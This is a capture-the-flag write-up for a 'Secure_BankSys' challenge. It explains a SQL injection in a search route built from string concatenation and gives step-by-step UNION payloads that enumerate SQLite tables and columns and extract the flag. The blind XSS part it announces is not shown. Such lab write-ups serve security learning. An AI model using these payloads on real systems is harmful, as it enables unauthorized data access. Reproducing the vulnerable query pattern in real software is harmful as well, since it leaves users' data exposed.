 # Secure_BankSys CTF Challenge Solution

This challenge combines two vulnerabilities:
1. SQL Injection in the search functionality
2. Blind XSS in the admin dashboard that displays search logs

## Part 1: SQL Injection Exploitation

The vulnerability is in the `/search` route in `app.py`:

```python
sql_query = f"SELECT account_number, customer_name, balance, account_type FROM accounts WHERE account_number LIKE '%{query}%' OR customer_name LIKE '%{query}%' OR account_type LIKE '%{query}%'"
```

The user input is directly concatenated into the SQL query without parameterization, making it vulnerable to SQL injection.

### Step 1: Verify the SQL Injection

First, we can test for SQL injection with a simple payload:

```
' OR '1'='1
```

This should return all accounts in the database, confirming the SQL injection vulnerability.

### Step 2: Enumerate the Database

We can explore the database structure with UNION-based injection:

```
' UNION SELECT 1,2,3,4 --
```

This will help us determine the number of columns (4) and their data types.

To find the table names:

```
' UNION SELECT 1, name, 3, 4 FROM sqlite_master WHERE type='table' --
```

This should reveal the tables: `accounts`, `users`, `internal_data`, and `search_logs`.

### Step 3: Extract the columns names


```' UNION SELECT 1,2,3,sql FROM sqlite_master WHERE tbl_name = 'internal_data' -- - ```
to find the columns names 


### Step 4: Extract the Flag

Now that we know there's an `internal_data` table, we can extract its contents:

```
' UNION SELECT 1, content, 3, 4 FROM internal_data --
```

This should reveal the flag: `Spark{G00d_J0B_K1nG_Y0u_4R3_C00k1nGG_1ZSQMLK9LQSX21}`

